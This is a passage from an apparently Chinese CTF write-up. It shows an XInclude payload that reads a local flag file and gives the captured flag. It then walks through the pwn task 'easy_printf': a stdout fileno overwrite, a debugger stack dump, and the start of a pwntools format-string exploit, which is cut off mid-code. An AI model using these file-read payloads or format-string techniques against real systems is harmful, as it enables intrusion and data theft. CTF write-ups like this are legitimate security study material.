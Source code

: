 ```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///flag" parse="text"/>
</root>
```

flag{5ea7d712-e461-4d29-9246-4ea6266775a8}

....................气死了就差一点拿到flag





## pwn

### easy_printf

pwnable.tw原题魔改，`bss`没有`stdin`,`stdout`,`stderr`了，但是一开始有个询问姓名，不知道有什么用,后来试了各种方法，想到了把`stdout`的`fileno`改为`2`，就可以绕过`close(1)`了
而且刚好
```asm
 ► 0x40089f <func1+57>    mov    eax, 0
   0x4008a4 <func1+62>    call   func2 <0x4007fa>
 
   0x4008a9 <func1+67>    mov    eax, 0
   0x4008ae <func1+72>    mov    rcx, qword ptr [rbp - 8]
   0x4008b2 <func1+76>    xor    rcx, qword ptr fs:[0x28]
   0x4008bb <func1+85>    je     func1+92 <0x4008c2>
 
   0x4008bd <func1+87>    call   0x400648
 
   0x4008c2 <func1+92>    leave  
   0x4008c3 <func1+93>    ret    
 
   0x4008c4 <main>        push   rbp
   0x4008c5 <main+1>      mov    rbp, rsp
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsi rsp  0x7fffc9a192f0 ◂— 0x4141414141414141 ('AAAAAAAA')
01:0008│          0x7fffc9a192f8 —▸ 0x7fe173507690 (_IO_file_underflow+496) ◂— 0xe8df8948fffffeff
02:0010│          0x7fffc9a19300 —▸ 0x7fe173852540 (_IO_2_1_stderr_) ◂— 0xfbad2087
```

名字下面残留有`stderr`，所以读取名字时,`partial overwrite`改为`_IO_2_1_stdout_->_fileno`，然后把`_fileno`改为2即可，后面的和`pwnable.tw`没什么区别，有了泄露，也有了无限格式化字符串攻击，随便怎么玩

exp为:

```python
from pwn import *

def fmtstr(offset, addr, data, written):
	cnt = 0
	payload = ''
	address = ''
	for x in data:
		cur = ord(x)
		if cur >= written&0xff:
			to_add = cur - (written&0xff)
		else:
			to_add = 0x100 + cur - (written&0xff)
		round = ''
		if to_add != 0:
			round += "%{}c".format(to_add)
		round += "%{}$hhn".format(offset+cnt+len(data)*2)
		assert(len(round) <= 0x10)
		written += to_add + 0x10 - len(round)
		payload += round.ljust(0x10, '_')
```